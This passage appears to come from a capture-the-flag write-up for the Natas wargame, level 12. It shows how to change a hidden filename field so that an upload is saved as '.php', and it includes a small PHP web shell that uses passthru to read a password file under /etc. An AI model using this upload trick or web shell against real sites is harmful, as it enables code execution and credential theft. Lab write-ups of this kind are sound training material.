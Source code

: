 An important thing to notice is that the filename supplied to the webapp is
NOT our filename, but rather it is a pseudo-random string using the same
`genRandomString()` function appended with `.jpg`.. hence the displayed link
will ALWAYS show as a `.jpg`.

```
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```

If we are able to manipulate this filename extension to something like `.php`
and upload a file like so..

```
$ cat exploit.php
<?

passthru("echo cat /etc/natas_webpass/natas13");
passthru("cat /etc/natas_webpass/natas13");

?>
```

#### EXPLOIT

With Chrome Developer Tools, we can modify the hidden form `input` element
which controls the `filename` to use `.php` as the extension instead of `.jpg`.

<img src='modify_form_filename_ext.jpg' width=500px>

.. and uploading the file yields a link with our desired `.php` extension..
